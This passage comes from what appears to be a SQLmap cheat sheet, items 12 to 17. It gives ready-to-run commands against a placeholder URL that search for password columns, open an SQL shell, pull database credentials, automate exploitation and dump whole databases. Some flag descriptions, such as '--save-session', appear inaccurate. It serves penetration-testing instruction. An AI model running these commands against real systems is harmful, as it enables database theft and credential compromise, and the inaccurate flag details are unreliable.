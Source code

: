 #### **12. Search for Specific Data**
- **Description:** Search for specific data in all tables and columns.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --search -C "user,pass"
  ```
- **Explanation:**
  - `--search` allows searching for specific data, such as usernames and passwords, across the entire database.

#### **13. Use SQL Shell**
- **Description:** Open an interactive SQL shell on the target.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell
  ```
- **Explanation:**
  - `--sql-shell` provides an interactive shell to execute SQL queries directly on the target database.

#### **14. Brute Force Attack**
- **Description:** Perform a brute-force attack on database user credentials.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --passwords
  ```
- **Explanation:**
  - `--passwords` attempts to brute-force and retrieve database user credentials.

#### **15. Automate Exploitation**
- **Description:** Automate the entire exploitation process with default options.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --batch
  ```
- **Explanation:**
  - `--batch` runs SQLmap with default options without requiring user interaction, useful for automated exploitation in scripts.

#### **16. Dump All Data**
- **Description:** Dump all data from the database.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --dump-all
  ```
- **Explanation:**
  - `--dump-all` extracts and dumps all data from the target database.

#### **17. Save Session**
- **Description:** Save the current session to resume later.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --save-session=mysession
  ```
- **Explanation:**
  - `--save-session` saves the progress and data of the current session, allowing it to be resumed later.
